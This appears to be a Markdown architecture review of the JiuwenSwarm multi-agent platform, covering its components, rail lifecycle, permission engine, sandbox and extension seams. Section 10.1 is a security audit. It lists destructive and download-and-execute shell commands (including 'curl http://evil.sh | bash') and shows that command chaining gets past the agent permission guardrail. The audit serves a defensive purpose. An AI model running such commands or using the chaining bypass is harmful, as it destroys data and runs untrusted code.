


# JiuwenSwarm Architecture

Analysed at `suraj-subrahmanyan/jiuwenswarm` commit `a98d7ad` (fork of
`openJiuwen-ai/jiuwenswarm`), branch `develop`, plus `openjiuwen==0.1.15.post3` installed
from PyPI.

> **Revision 2.** `openjiuwen` — which holds `DeepAgent`, the rails, the permission engine and
> the harness manifest framework — was unavailable in Revision 1, so its behaviour was
> reported as *documented*. It is now installed and executed. Three findings change earlier
> conclusions and are marked **⚠ CORRECTED** below. Full transcripts in
> [12-verification-appendix.md](12-verification-appendix.md).
>
> | Finding | Effect |
> |---|---|
> | Rail lifecycle has **11** events, not 10 | §4.2 |
> | Built-in security rules load **0 rules** in a stock install | §10.1, §10.4 |
> | Exactly **two** member roles with a **global** permission policy | §5 |
> | Full test suite: **2,816 passed, 18 skipped, 0 failed** | §11 |

---

## 1. What it is

JiuwenSwarm is a multi-agent system distributed as a Python package (`jiuwenswarm`,
version 0.2.3.beta1, Apache-2.0). It runs a set of long-lived processes on a machine —
a gateway, an agent server, a web frontend — and exposes agents to users over chat
channels (web UI, TUI, desktop app, and a large set of IM platforms). Agents execute
in-process as Python objects, not as external CLI processes.

The critical structural fact: **JiuwenSwarm is not self-contained.** Its agent runtime
is the `openjiuwen` package (pinned `openjiuwen==0.1.15.post3`), a separate PyPI
dependency that is *not* vendored into this repository. `DeepAgent`, the ReAct loop, the
Rail lifecycle base classes, the task loop controller, the permission engine, the harness
manifest framework, and several built-in rails/tools/sub-agents all live there.
JiuwenSwarm is the *platform layer* on top: channels, gateway, session management, skill
management, swarm assembly, evolution, Symphony, sandbox integration, and the extension
system. [E-J01]

This matters for the integration question: roughly half the extension surface an
integrator would want to touch is upstream of JiuwenSwarm, in a package this analysis
could not read.

---

## 2. Process and component topology

### Entry-point inventory

Declared in `pyproject.toml` `[project.scripts]` [E-J02]:

| Script | Role |
|---|---|
| `jiuwenswarm-start` | supervisor that launches the service set |
| `jiuwenswarm-gateway` | gateway process |
| `jiuwenswarm-agentserver` | agent server process |
| `jiuwenswarm-web` | web frontend server |
| `jiuwenswarm-desktop` | pywebview desktop shell |
| `jiuwenswarm-acp` / `jiuwenswarm-acp-chat` | ACP protocol connector and CLI |
| `jiuwenswarm-init` | workspace initialisation |
| `jiuwenbox` / `jiuwenbox-server` | sandbox CLI and server |

---

## 3. Component responsibilities

### 3.1 Gateway (`jiuwenswarm/gateway/`, ~41k LOC)

Owns everything between an external platform and the agent server.

- **ChannelManager** — one connector per platform. Nine IM connectors ship in-tree
  (Feishu 3,440 LOC being the largest), plus web, TUI, desktop, ACP and A2A protocol
  connectors.
- **im_pipeline** — normalises platform-specific inbound payloads.
- **MessageHandler** (3,976 LOC) — the gateway's core. Command parsing, session routing,
  join/exit handling, file services.
- **Cron scheduler** (`gateway/cron/`, 1,330 + 517 LOC) — scheduled task system with a
  controller and per-task state.
- **Routing** — `agent_client.py` maintains the WS connection to the agent server;
  `session_sharing.py` handles multi-channel session sharing.

### 3.2 E2A protocol (`jiuwenswarm/common/e2a/`)

"Everything-to-Agent". The normalised envelope format between gateway and agent server.
`E2AEnvelope` for requests, `E2AResponse` for responses, with adapters projecting to and
from ACP JSON-RPC and A2A Task/Message/Card. The documentation names `models.py` as the
normative source of truth over the prose spec. [E-J03]

The `method` field is overloaded: gateway-origin methods (`chat.send`, `history.get`,
`chat.interrupt`) are internal RPC names, while ACP-origin methods (`session/prompt`,
`initialize`) are JSON-RPC names. The docs flag this explicitly as a pitfall.

### 3.3 AgentServer (`jiuwenswarm/server/`, ~42k LOC)

- **`agent_ws_server.py`** (6,938 LOC) — WebSocket server. Dispatches on `req_method`
  to ~40 handlers: session list/rename/switch/delete, three rewind variants
  (full, with file restore, with compaction), history, team snapshot/history/members,
  permissions config, and slash commands (`/add-dir`, `/chrome`, `/compact`, `/context`,
  `/recap`, `/diff`, `/simplify`, `/model`, `/mcp`, `/sandbox`, …). [E-J04]
- **`runtime/agent_manager.py`** — caches agents keyed by `(mode, sub_mode, project_dir)`,
  and maintains agent topology per channel.
- **`runtime/agent_adapter/`** — the adapter layer between RPC requests and `DeepAgent`.
  `interface.py` (2,516) is the base, `interface_deep.py` (8,458) the general agent path,
  `interface_code.py` (1,677) the coding-agent path. `team_helpers.py` (2,731) handles
  team-mode specifics.
- **`runtime/skill/skill_manager.py`** (4,099 LOC) — skill install/uninstall/list/search
  across five sources, plus `skilldev/` (a staged skill-development pipeline with
  `desc_optimize_stage.py` and `evaluate_stage.py`).
- **`runtime/session/`** — `session_manager`, `session_history` (573), `session_metadata`
  (501), `session_rename`.
- **`sandbox/jiuwenbox_runner.py`** (493 LOC) — manages a local `jiuwenbox` uvicorn
  subprocess, triggered by `/sandbox enable`. [E-J11]

### 3.4 Swarm assembly (`jiuwenswarm/agents/swarm/`)

The declarative harness-assembly layer, and the best-documented part of the codebase
(`DESIGN.md`, 15 sections). It converts configuration into a `TeamAgentSpec` that
`openjiuwen` builds into running agents.

The model, in the design doc's own words: *a team member's capability = a set of
declarative specs (`RailSpec` / `BuiltinToolSpec` / `SubAgentSpec`) → openjiuwen resolves
by `type` / `factory_name` to a swarm provider factory → the factory uses
`ConstructionInput` to extract construction parameters from `params` (attributes) plus
`SwarmBuildContext` (environment) → produces a runtime object.* [E-J05]

Three design principles are stated explicitly:

1. **Purely declarative assembly** — capabilities are declared as config-sourced provider
   specs; customizer functions and `rail.init` post-mounting are forbidden.
2. **Members share the config source** — members are not derived from a pre-built parent
   `DeepAgent`.
3. **Cross-serialisation-boundary rebuilding via seed** — member spawn, distribution and
   hot recovery go through `build_context_seed` plus a registered context factory.

The **param vs context boundary** is the load-bearing concept: anything derived from
`config.yaml` is an *attribute* and is baked into `RailSpec.params` at spec-build time;
anything varying per request/session/member is an *environment* value carried on
`SwarmBuildContext`. The consequence is that `DeepAgentSpec` round-trips through JSON
completely, which is what makes distributed swarm members possible.

The element catalog is 36 elements: 8 swarm-owned tools, 18 factory rails, 3 class rails,
1 sub-agent, plus 12 referenced from `openjiuwen` by bare `core.*` name. [E-J06]

### 3.5 Symphony (`jiuwenswarm/symphony/`, ~35k LOC)

Skill retrieval and orchestration for installations with many skills.

- **Retrieval** — builds a local skill *tree* index; the agent browses branches with
  `skill_branch_explore` / `skill_branch_peek` rather than having every skill description
  injected into the prompt.
- **Orchestration** — builds a skill *score* (a graph where an edge means one skill's
  output can feed another's input), then compiles a task goal plus candidate skills into
  an executable skill chain.
- Supporting subsystems: `fingerprint/` (I/O-name and data-type normalisation),
  `indexing/`, `graph/candidates/`, `experience/` (collector + bank), and a local
  inference path (`retrieval/llm/vllm/`, `transformers_prefix_cached_generation/`).

Symphony ships as one of the two in-tree extensions, exposing five RPC methods.

### 3.6 Auto Harness (`jiuwenswarm/agents/harness/common/auto_harness/`)

Evaluation-driven self-optimisation of the harness itself — "post-training at the harness
layer". Two pipelines:

- **Meta Evolve** — research → assess → plan → implement in an isolated git worktree →
  CI verification with auto-fix on failure → commit → open PR → extract learnings. Targets
  the shared base harness; changes require PR review.
- **Extended Evolve** — assess extension gaps → design → parallel build/verify with
  dependency-wave orchestration → merge → user confirmation → hot-load. Produces
  hot-loadable runtime extension packages, no restart.

Also includes `issue_fix/` — scanning and fixing GitCode issues, with a GitCode client,
issue state store and matrix store. Driven from the TUI via `/auto-harness`.

This is the closest JiuwenSwarm analogue to AI4RnD's evaluation machinery, but note what
it optimises: **the harness**, not the *correctness of a research result*. It is a
capability-improvement loop, not a factual-verification gate.

### 3.7 Skill self-evolution (`agents/swarm/providers/evolution_rails.py`)

Three rails: `swarm.team_skill_evolution` and `swarm.team_skill_create` (leader),
`swarm.member_skill_evolution` (teammate). Evolution signals are detected automatically
after tool execution and dialogue completion — execution exceptions and user corrections
both count. Records land in `evolutions.json` inside the skill directory and are loaded
with the skill on next use. Manual triggers: `/evolve <skill>`, `/evolve list`. Gated by
`evolution_auto_scan`. [E-J13]

### 3.8 Memory (`agents/harness/common/memory/`)

`MemoryIndexManager` (1,224 LOC) maintains a SQLite index with an optional vector table
(`sqlite-vec`, with `chromadb`, `pgvector` and `faiss-cpu` also in the dependency set).
It watches memory and session files, re-indexes on change or interval, chunks and embeds
content, and serves hybrid vector + keyword search. There is also a `dreaming/sweeper.py`
(797 LOC) — background memory consolidation.

Separate from this: `rails/project_memory/` (962 LOC in `files.py`) for project-scoped
memory, and `swarm.code_coding_memory` for code-aware memory.

---

## 4. Execution model

### 4.1 The agent loop

Documented in `docs/en/Harness.md`. `DeepAgent` has two modes: single-round ReAct for
short tasks, and a **dual-layer task loop** for long-running work. The outer loop is
composed of `TaskLoopController`, `LoopCoordinator`, `TaskLoopEventHandler`,
`TaskLoopEventExecutor` and `LoopQueues`; it submits each round as a `CoreTask`, waits,
and evaluates whether another round is needed. [E-J15]

Runtime interaction lives at the outer layer:

- `follow_up` — queue a user follow-up for the next round
- `steer` — inject runtime guidance into the current task
- `abort` — cancel the outer loop and attempt to interrupt the inner ReAct loop

Stop conditions use OR semantics, with built-in evaluators: `MaxRoundsEvaluator`,
`TimeoutEvaluator`, `TokenBudgetEvaluator`, `CompletionPromiseEvaluator`,
`CustomPredicateEvaluator`.

> These classes live in `openjiuwen` and were not read. Behaviour is **documented**,
> not verified.

### 4.2 Rail lifecycle — the extension backbone

| Event | Location | Typical use |
|---|---|---|
| `before_invoke` / `after_invoke` | outer DeepAgent | initialise resources, load skills, sync external memory |
| `before_task_iteration` / `after_task_iteration` | outer task loop | rewrite task instructions, sync todo, detect completion promises, trigger evolution |
| `before_model_call` / `after_model_call` | inner ReAct | assemble prompts, inject safety rules, compress context, collect trajectories |
| `before_tool_call` / `after_tool_call` | inner ReAct | permission checks, plan-mode restrictions, LSP diagnostics, progress reminders |
| `on_model_exception` / `on_tool_exception` | inner ReAct | repair context, govern exceptions |

**⚠ CORRECTED — there are 11 events, not 10.** Executed enumeration of `AgentCallbackEvent`
returns: `before_invoke`, `after_invoke`, `before_task_iteration`, `after_task_iteration`,
**`after_react_iteration`**, `before_model_call`, `after_model_call`, `on_model_exception`,
`before_tool_call`, `after_tool_call`, `on_tool_exception`. `after_react_iteration` is absent
from the documentation table in `docs/en/Harness.md`. [V-1]

Verified class structure: `AgentRail` is an ABC at
`openjiuwen/core/single_agent/rail/base.py:456` with `priority: int = 50` (479),
`init(self, agent)` (481) and `uninit(self, agent)` (484). `DeepAgentRail`
(`openjiuwen/harness/rails/base.py:28`) adds only the two task-iteration hooks plus
`set_workspace` / `set_sys_operation`. `get_callbacks()` returns only *overridden* methods.

A Rail may register and unregister tools on the live agent via
`agent.ability_manager.add_ability(tool.card, tool)` / `remove_ability(name)`.
`MemberSkillToolkitRail` does exactly this. [E-J10]

**This is the single most important fact for the integration question, and it is now verified
by execution rather than inferred.** An out-of-tree Rail registered a tool, the tool resolved
through `Runner.resource_mgr`, invoking it returned the correct result, and `uninit` removed
it cleanly. [V-2]

One implementation detail matters for integration: `add_ability` branches on
`card.stateless`. Stateful tools (the default) are rewritten to an agent-qualified id
`f"{name}_{owner_id}"` and registered with `refresh=True`; stateless tools keep a bare id and
are added `skip_if_exists`. A research toolkit holding a service client should be **stateful**.

### 4.3 Execution modes

Three user-selectable modes:

| Mode | Behaviour |
|---|---|
| Plan | decompose into concrete steps, execute step by step, confirm each |
| Performance | flexible handling, parallel tasks, fast response |
| Swarm (default) | leader decomposes, assembles a team, multiple specialised agents coordinate |

Internally, `mode` values seen in the swarm assembly code are `team`, `code.team` and
`team.plan`; `config_specs.py` branches its element set on these. [E-J05]

---

## 5. Agent and worker model

An agent in JiuwenSwarm is defined as **identity + tools + skills + memory + workspace**.
Identity lives in `IDENTITY.md` / `SOUL.md`; the workspace sits under `.jiuwenswarm/`.

**Swarm mode** gives two roles: `leader` and `teammate`. They differ by element set —
the leader gets `swarm.team_skill_evolution` and `swarm.team_skill_create`, the teammate
gets `swarm.member_skill_evolution`. Otherwise both are assembled from the same config
source. Members can be distributed across processes and machines
(`remote_member_bootstrap.py`, 3,019 LOC).

**Sub-agents** are a second delegation axis, used mainly in code mode: `core.explore_agent`,
`core.plan_agent`, `core.browser_agent` from `openjiuwen`, and `swarm.code_agent` in-tree.
Sub-agents isolate context from the parent.

There is **no notion of a capability advertisement or a capability-based router.** Worker
selection is by *role* (`leader` / `teammate`) and configured element set, not by matching
a task's required capabilities against a worker's declared ones. This is a substantive
difference from AI4RnD.

**⚠ CORRECTED — the role model is thinner than Revision 1 assumed, and it blocks a design
the recommendation depended on.** [V-6]

- There are exactly **two** roles: `_MEMBER_ROLES = ("leader", "teammate")`
  (`assembly.py:40`).
- Rail *composition* does differ per role — `TEAM_PERMISSION` is attached for `teammate`,
  `TEAM_PERMISSION_POLICY` for `leader` (`config_specs.py:428-442`), and skills differ via
  `_resolve_member_skills(config, role)` reading `config.agents.<role>.skills`.
- But permission *policy values* come from the single global `config.permissions`. Two
  members cannot be given different rule sets.
- Neither `evaluate_tiered_policy` nor `harness/security/core.py` references `member`,
  `agent_id` or `role`.

**Consequence.** AI4RnD's four named agents (PM / Planner / Builder / Evaluator) and its
per-operator permission model do not map onto this. "The evaluator must not be the writer"
cannot be expressed as a JiuwenSwarm permission constraint, so it must be enforced in
AI4RnD's own router — see [08 §6.4](08-recommended-architecture.md#64-writer--verifier-is-enforced-in-the-ai4rnd-router).

---

## 6. Tools and skills

**Tools** are registered abilities on the agent. Sources:

- `openjiuwen` built-ins: `core.web_search`, `core.web_fetch`, `core.web_paid_search`,
  `core.vision`, `core.audio`
- swarm-owned: `swarm.skill_toolkit`, `swarm.user_todos`, `swarm.video`,
  `swarm.image_gen`, `swarm.xiaoyi_phone`, `swarm.cron_tools`, `swarm.send_file`,
  `swarm.code_extra_tools`, `swarm.symphony_toolkit`
- MCP servers, configured via `common/mcp_config.py`
- Rail-registered tools (see §4.2)

**Skills** are Anthropic-style capability packages: a directory containing `SKILL.md` with
YAML frontmatter (`name`, `description`), optionally `references/` and `scripts/`. Five
sources: built-in, SkillNet (GitHub-backed), ClawHub, SwarmSkills, and local import.
Installation and activation happen through the web UI. [E-J16]

The skill format is materially the same as AI4RnD's, which is a genuine reuse opportunity
(see [04-component-comparison.md](04-component-comparison.md) §Skills).

---

## 7. State and persistence

| State | Where |
|---|---|
| Conversation history | session store, `runtime/session/session_history.py` |
| Session metadata | `runtime/session/session_metadata.py` |
| Task state, plans, pending follow-ups, plan-mode state | persisted into the session (documented) |
| Long-term memory | SQLite + vector index under the agent workspace |
| Skills | `~/.jiuwenswarm/workspace/agent/skills/<name>/` |
| Skill evolution records | `evolutions.json` per skill directory |
| Configuration | `~/.jiuwenswarm/config/config.yaml`, `.env` |
| Rail plugins | `<agent_workspace>/extensions/<name>/` + `extensions_config.json` |
| Symphony score / index | `symphony.paths.score_dir`, `skills_root` |

There is **no run-artifact tree**. JiuwenSwarm has no concept equivalent to AI4RnD's
`runs/<run_id>/` directory of typed, inspectable intermediate artifacts. Intermediate
reasoning lives in the session transcript, which is a chat log, not a set of validated
artifacts.

---

## 8. Verification and evaluation

What exists:

| Mechanism | What it checks |
|---|---|
| `TaskCompletionRail` / stop evaluators | whether the loop should stop (rounds, timeout, token budget, completion promise) |
| Permission engine | whether a tool call is allowed |
| `core.security` rail | safety rules injected into the model call |
| `swarm.code_lsp` | code diagnostics after edits |
| Auto Harness CI verification | whether a harness change passes CI, with auto-fix loop |
| `skilldev/stages/evaluate_stage.py` | quality of a generated skill definition |
| Skill evolution signal detection | tool failures and user corrections, as improvement input |

What does **not** exist, anywhere in the tree:

- evidence ledger, claim graph, citation spans, entailment/support checks
- source-authority scoring, source-diversity or freshness gates
- writer ≠ verifier enforcement
- a gate ledger, or node status derived as a projection of gate verdicts
- factuality or grounding metrics over generated text

A repository-wide search finds no `evidence_ledger`, `citation_span`, `claim_graph` or
`factuality` identifiers. [E-J14]

**Conclusion:** JiuwenSwarm verifies *execution* (did the tool call succeed, is it
permitted, should we stop) and *capability quality* (is this skill good). It does not
verify *epistemic correctness* (is this claim supported by evidence). That is the entire
AI4RnD contribution.

---

## 9. Extension points — ranked by usefulness for integration

### 9.1 Rail plugins — the strongest out-of-tree seam ✅

`RailManager` (`agents/harness/common/plugins/rail_manager.py`, 19KB) is a singleton that:

- reads `<agent_workspace>/extensions/extensions_config.json`
- imports extension folders each containing `rail.py`
- validates the file contains a class inheriting `DeepAgentRail` or `AgentRail`, and
  compiles cleanly
- extracts class name, description and priority by regex
- supports `hot_reload_rail(name, enabled)` → `agent.register_rail(...)` /
  `agent.unregister_rail(...)` on a live agent
- is driven from four `agent_ws_server` handlers (import / delete / toggle / list) [E-J09]

Combined with `add_ability` (§4.2), a Rail plugin can add tools, hook every lifecycle
event, and be installed and toggled at runtime with no restart and no core-tree change.

**Caveat:** validation is regex-and-`compile()` only. There is no sandboxing, signing,
or capability restriction — `rail.py` executes with full agent-server privileges.

### 9.2 Extension packages — narrow, and half-closed ⚠️

`BaseExtension` requires `initialize(config)` and `shutdown()`. `ExtensionRegistry`
accepts:

- `register_rpc_handler(method, handler)`
- `register_agent_server_client(ext)`
- `register_crypto_utility(ext)`
- `register(event, handler, priority)` on the callback framework

Hook events are six, total: `gateway_started`, `gateway_stopped`,
`gateway.before_chat_request`, `agent_server_started`, `agent_server_stopped`,
`agent_server.before_chat_request`, `memory_before_chat`, `memory_after_chat`,
`before_system_prompt_build`. [E-J07]

Discovery: `ExtensionManager` searches `extensions.extension_dirs` from config
(semicolon-separated) plus the default in-package `jiuwenswarm/extensions`. Each root
needs `extension.yaml` and `extension.py` exporting `register_extensions(registry)`.
Declared dependencies are auto-installed with `uv pip install` or `pip install`. [E-J17]

**The closed half.** An extension's registered RPC method is callable from *inside* the
process — `symphony_toolkits.py` resolves handlers by string and invokes them [E-J18] —
but it is **not** reachable from the WebSocket surface unless the method is added to:

1. the `ReqMethod` enum in `jiuwenswarm/common/schema/message.py`, and
2. the hardcoded `_SYMPHONY_METHODS` frozenset in
   `server/runtime/agent_adapter/interface.py:437` [E-J08]

Both are core-tree files. So "extension" here means "in-tree module with a manifest",
not "third-party plugin with a stable API".

### 9.3 Harness element manifest — powerful, but gated by config ⚠️

`@harness_element` + `register_from_catalog()` registers rail/tool/sub-agent provider
factories into `openjiuwen`'s process-global registries. Since those registries are plain
`dict[str, Callable]`, an out-of-tree module *can* register into them. [E-J06]

But registration is not sufficient. `config_specs.py` holds hardcoded name lists
(`_COMMON_RAIL_NAMES`, `_CODE_RAIL_NAMES`, `_COMMON_TOOL_NAMES`, …) that decide which
elements are folded into a member's `DeepAgentSpec`. A newly registered element with no
entry in those lists is never assembled. The design doc lists "configuration-file →
harness loader" as **future work, not implemented** (§15). [E-J05]

### 9.4 Other surfaces

| Surface | Nature |
|---|---|
| MCP servers | standard MCP; config-driven; no code changes |
| Skills | file-based, hot-installable, no code changes |
| User hooks (`swarm.user_hooks`, `config.hooks`) | shell-hook style interception |
| Slash commands | documented architecture (`SlashCommandArchitecture.md`); dispatch table in the gateway/WS server |
| A2A / ACP | inbound protocol connectors — JiuwenSwarm as a *server* to external agents |
| `agent_client` extension | JiuwenSwarm as a *client* of a remote agent server |

---

## 10. Security and operational boundaries

### 10.1 Tool permissions

A three-tier action model (`allow` / `ask` / `deny`) with a tiered policy engine in
`openjiuwen.harness.security`. Resolution order, per the docs [E-J12]:

1. Whole-tool baseline `permissions.tools.<name>` — an explicit `deny` returns immediately.
2. Built-in parameter rules from `builtin_rules.yaml` — any `DENY` returns immediately,
   and built-in deny outranks everything below.
3. User parameter rules from `permissions.rules` — any `DENY` returns immediately.
4. `approval_overrides` (only `action: allow`) — a match returns `ALLOW`.
5. Otherwise built-in hits decide (user hits are *not* merged across layers).
6. Otherwise user hits decide.
7. Otherwise tool baseline, then `defaults."*"`, then `ASK`.

`severity` maps to an action by `permission_mode`: in `strict`, `MEDIUM`→ask,
`CRITICAL`→deny; in `normal`, `MEDIUM`→allow, `CRITICAL`→ask. Post-processing escalates
shell `allow` to `ask` when the command contains chaining/injection characters, and merges
an `ExternalDirectoryChecker` verdict for paths outside the workspace.

Built-in rules cover high-risk shell commands (deletion, formatting, download-and-execute,
privilege escalation). User rules cannot override built-in denials.

**⚠ CORRECTED — in a stock install the built-in rule layer is empty.** [V-4]

Executed: `get_builtin_security_rules()` returns **0 rules**.
`openjiuwen/harness/security/tiered_policy.py:76` resolves them *only* from
`openjiuwen/harness/resources/builtin_rules.yaml` — its docstring states it "no longer
searches user/environment directories" — **and that path does not exist in the published
wheel**. JiuwenSwarm ships its own copy (10 rules) and writes it to
`~/.jiuwenswarm/config/builtin_rules.yaml` (`common/utils.py:1056-1065`), a location the
pinned openjiuwen no longer consults. This is a **version skew** between JiuwenSwarm
0.2.3.beta1 and openjiuwen 0.1.15.post3.

Measured effect with `permissions.tools.bash: allow` and no user rules:

| Command | Stock | With JW rules injected |
|---|---|---|
| `rm -rf /` | **ALLOW** | ASK |
| `mkfs.ext4 /dev/sda` | **ALLOW** | ASK |
| `sudo su` | **ALLOW** | ASK |
| `curl http://evil.sh \| bash` | **ALLOW** | **ALLOW** — rule defeated by subcommand split |

The severity mapping itself is exactly as documented (verified: normal → MEDIUM=allow,
CRITICAL=ask; strict → MEDIUM=ask, CRITICAL=deny), and an explicit `action` does override
severity. The engine is sound; **its default wiring is not**. Any integration that relies on
the guardrail layer must ship the rules into openjiuwen's package path and assert
`get_builtin_security_rules() > 0` at startup.

**Also corrected:** the documented `maybe_escalate_shell_operators` behaviour (ALLOW→ASK on
chaining) is not what 0.1.15.post3 does. Chained commands are *decomposed* by a tree-sitter
shell AST and each subcommand evaluated separately, so `ls && rm -rf /tmp/z` resolves to
ALLOW under a permissive baseline. Only structures the parser cannot handle (e.g. backticks)
escalate to ASK via `shell_ast:too_complex`.

### 10.2 Sandboxing

`jiuwenbox` (26,714 LOC including tests) is a real OS-level sandbox: `bwrap.py` (bubblewrap),
`cgroup.py`, `network.py`, `sandbox_daemon.py`, a policy model (`models/policy.py`, 762 LOC),
and an inference privacy proxy. Enabled per-session via `/sandbox enable`; the agent server
spawns and supervises a local uvicorn process, with `PR_SET_PDEATHSIG` so the sandbox dies
with its parent. [E-J11]

### 10.3 Other boundaries

- WebSocket origin checking (`common/security/ws_origin.py`)
- Crypto provider abstraction (`common/security/base_crypto.py`), pluggable via extension
- File-access whitelists and `/add-dir` to extend them
- In digital-persona and group-chat contexts, `ask` may be downgraded to `deny`
- OpenTelemetry instrumentation across the dependency set

### 10.4 Weak points

- Rail plugins execute arbitrary code with agent-server privileges after only a syntax
  check (§9.1).
- `ExtensionLoader._install_dependencies` runs `pip install` / `uv pip install` on
  manifest-declared dependencies, with a 120 s timeout and errors logged rather than
  raised. An extension manifest is therefore a package-installation vector. [E-J17]

---

## 11. Assessment as a foundation

**Health, measured.** The full suite runs **2,816 passed, 18 skipped, 0 failed** in 419 s
(2,834 collected), and `pip install -e ".[test]"` completes cleanly. This is the strongest
single argument for JiuwenSwarm as a substrate, and it was unavailable in Revision 1. [V-7]

**Strengths.** Mature, coherent execution substrate. Real permission engine (when wired).
Real sandbox.
Nine IM channels plus ACP/A2A. Declarative, serialisable harness assembly that already
supports distributed members. Skills with a hot-install path and five registries. Memory
with hybrid retrieval. Session rewind and context compaction. Packaged and versioned on PyPI.

**Limits for this purpose.**

1. No evidence, claim, citation or factuality model at all.
2. No run-artifact tree — no typed, inspectable intermediate artifacts.
3. No capability-based routing; workers are selected by role.
4. Extension surface is narrow out-of-tree, and the RPC path is closed by two hardcoded
   core-tree lists.
5. Roughly half the relevant runtime is in `openjiuwen`, an external pinned dependency —
   so an integrator's real upstream exposure is to *two* projects, not one. **The most
   security-relevant defect found (V-4) is in `openjiuwen`, not JiuwenSwarm** — which means
   even forking JiuwenSwarm would not let you fix it cleanly.
6. Documentation and code comments are substantially Chinese; the codebase assumes a
   Huawei-internal lint toolchain (`huawei-python-lint`).
7. **Only two member roles with a global permission policy** (§5) — per-operator governance,
   which the intended AI4RnD product requires throughout, is not expressible.
8. **Measured against the intended product, JiuwenSwarm fully covers 20 of 142 features and
   covers none of 72** — see [14-reuse-vs-build-map.md](14-reuse-vs-build-map.md). It is a
   substrate, not a platform for this product.

Continued in [04-component-comparison.md](04-component-comparison.md).
